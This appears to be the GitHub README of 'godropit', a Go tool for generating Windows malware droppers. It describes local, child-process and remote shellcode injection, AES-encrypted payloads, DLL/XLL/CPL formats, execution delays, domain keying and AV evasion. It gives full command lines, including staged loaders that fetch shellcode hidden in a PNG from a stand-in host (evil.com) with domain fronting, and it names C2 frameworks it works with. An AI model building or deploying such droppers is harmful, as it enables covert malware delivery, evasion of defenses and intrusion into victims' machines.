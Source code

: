 # godropit

Simple Dropper Automation tool just enough to automate using some common go payloads from the excellent examples of [Ne0nd0g](https://github.com/Ne0nd0g/go-shellcode), [GoPurple](https://github.com/sh4hin/GoPurple). It differs from these projects primarily in that it uses go [templates](https://pkg.go.dev/text/template) to generate the dropper code.

- [godropit](#godropit)
  - [Supported Functionality](#supported-functionality)
    - [Supported Formats](#supported-formats)
- [Install](#install)
- [Usage](#usage)
  - [Payload Types](#payload-types)
      - [Local](#local)
      - [Child](#child)
      - [Remote](#remote)
      - [Staged](#staged)
  - [Usage Tips](#usage-tips)
    - [Test Shellcode](#test-shellcode)
    - [Execution delays](#execution-delays)
    - [Domain Keying](#domain-keying)
- [Known Issues](#known-issues)
 
## Supported Functionality
* Domain keying
* Local, remote and child process execution methods.
* Automatic AES shellcode encryption
* Can also load exe's with go-donut, allowing exec of sliver-agent.exe etc. 
* Staged PNG Loader - hides encrypted shellcode inside a remote png. Supports domain fronting.

### Supported Formats
First and foremost godropit focuses on windows binary formats. It currently supports:
* Exe
* Dll
* Xll
* Cpl

Note: Xll and CPL are generated by the shared flag, all shared droppers include exports for xlls, cpls and common windows dll based attacks.

Future formats can be added on request.

# Install
To use godropit you will need to install go, as we'll need the go compiler to compile our droppers. You'll also want mingw-w64 for any payload using C, e.g. DLL droppers.

**On Linux**
```sh
sudo apt update && sudo apt install golang mingw-w64
git clone <THIS REPO>
go build -trimpath -ldflags="-w -s" -o godropit main.go && sudo cp godropit /usr/local/bin
```

**On Windows (untested)**
Install golang first. 
```cmd
choco install mingw-w64
go build -trimpath -ldflags="-w -s" -o godropit main.go
```

# Usage
[Example Usage](https://asciinema.org/a/Trd0aKJuNVbB6j4jPssbiYDuh)

Once downloaded it's fairly simple, you can either compile the binary and run it that way, or use it with "go run". Right now it only accepts baked in templates, but it will output the src to "-o /full/path/to/outputdir". This is where all the go source files will be placed, including encrypted shellcode, env variables used and go.mod/go.sum etc. Use flag --debug to keep these files after compilation, else godropit will tidy these away. 

**WARNING** Do not output to the godropit directory, doing so will break the droppers and they will NOT generate, because go will try to build godropit and your bin in one go. 

```sh
.\godropit new <local|child|remote> -i <exe/binfile> -n <outputfilename> -o <full path to output directory> -d <domainnamestring(wip)>
```

## Payload Types

#### Local

Local Payloads inject into the local process. 
**Note:** Because it exit's once complete, you can optionally specify `-l` to add an infinite for loop to keep the process open. 

```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l
```

#### Child

Child payloads spawn in a child process, which is started by the dropper manually (werfault.exe by default).
`--proc` and `--args` can be used to spawn a different process with arguments. Please watch the backslashes carefully, you may need to edit this in the .go file if your flag doesn't work.

```
godropit new child -i shellcode.bin -n childdropper -o /path/to/outdir --proc "c:\\windows\\system32\\notepad.exe" --args "whatever"
```

#### Remote

Remote payloads spawn in a process specified by `--pid` (werfault.exe by default).

```
godropit new remote -i shellcode.bin -n remotedropper -o /path/to/outdir -pid 1234
```

#### Staged

In addition to a stageless payload (the default), you can generate staged payloads. These are very similar to the other payloads, but it uses HTTP to grab your shellcode from a stego'd png. To use this function, you need to host your stego'd png somewhere the dropper can reach.
Below shows the local injection type, but staged and as a shared (-s) format.

```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l -s -u http://evil.com/test.png --img /path/to/imagefile.jpg/png
```
You can also specify the host header for domain fronting:
```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l -s -u http://evil.com/test.png --img /path/to/imagefile.jpg/png --host something.alphaweasel.com
```

**Notes about stego droppers:**

* The output file will always be a png regardless of input format and not all formats/images may work.
* Stagers don't necessarily save on file size unless you are using a particularly large exe or shellcode file. This is because the staged payload uses go libraries for TLS/HTTP etc. The unitended benefit is it might look more like a more legitimate go binary, as it includes more of the go stdlib. 
* Supports domain fronting, so you can send your request to a more legitimate looking domain (not super thoroughly tested).
* No proxy detection is currently implemented, use at your own risk.

I'd only recommend stego if you are unsure about the target env, and maybe want to include some checks against IP whitelists/sandbox analysis.

## Usage Tips
Below are some usage tips to get the most out of godropit.

### Test Shellcode
**-i flag**
If you are unsure about a dropper, or just want a quick visual test - specify CALC as your input filename and godropit will autofill with some x64 shellcode to pop calc.
This does accept exe files, and will use donut to create shellcode from them. Warning though, it'll be chonky.
### Execution delays
**-t flag**
This takes the time in seconds, and adds that as a delay prior to execution and decryption. Can be useful for distancing the exec of the binary from injection activity by a margin.
If not specified, this will only delay by 1 second. 

### Domain Keying
**-d flag**
Domain keying is supported, it will check both the go hostname (which often includes domain\\) and the USERDNSDOMAIN env var.
This uses strings.Contain() and is not case sensitive, so you can put as much or as little of the domname in to this.

There are plans to support more, but I suggest you write your own bespoke payloads for most scenarios - this is just for quick wins against simple AV.

# Known Issues

1. Sometimes you need to specify a full path, relative paths can lead to mixed results/errors.
2. Some of the droppers may not work, and some C2's the shellcode doesn't always play nice - e.g. sliver. However, cobalt and posh seem reliable.
3. In some circumstances payloads may not generate or need tweaking, unfortunately in these scenarios your best option is to re-run with --debug so you can modify and compile the godropit code yourself.

